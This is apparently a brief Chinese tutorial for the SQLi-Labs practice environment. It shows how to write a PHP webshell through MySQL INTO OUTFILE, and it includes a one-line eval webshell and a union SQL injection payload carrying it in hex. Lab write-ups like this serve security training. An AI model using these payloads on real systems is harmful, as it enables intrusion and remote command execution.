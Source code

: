 ### into outfile GetShell

话不多说，直接上题（SQLi-Labs）

![](https://pic1.imgdb.cn/item/6877645458cb8da5c8b918ea.png)

写 Shell 即 MySQL 需要对外写文件，但默认 MySQL 是不允许使用 `outfile` 来导出数据的，先手动在 MySQL 确认一下

```sql
show global variables like '%secure%';
```

MYSQL 的特性 secure_file_priv 对读写文件的影响，此开关默认为 NULL，即不允许导入导出

![](https://pic1.imgdb.cn/item/687764e458cb8da5c8b9201c.png)

这里有个小注意事项，不能直接把  `<?php eval($_POST['pwd']);?>`  转 16 进制，因为  `<?php eval`  之间的空格不会保留的。因此要手动加上  `20`  空格

![](https://pic1.imgdb.cn/item/687767cd58cb8da5c8b951d3.png)

```
id=1')) union select null,0x3c3f706870206576616c28245f504f53545b27636d64275d293b3f3e,null into outfile '具体实际路径' --+
```

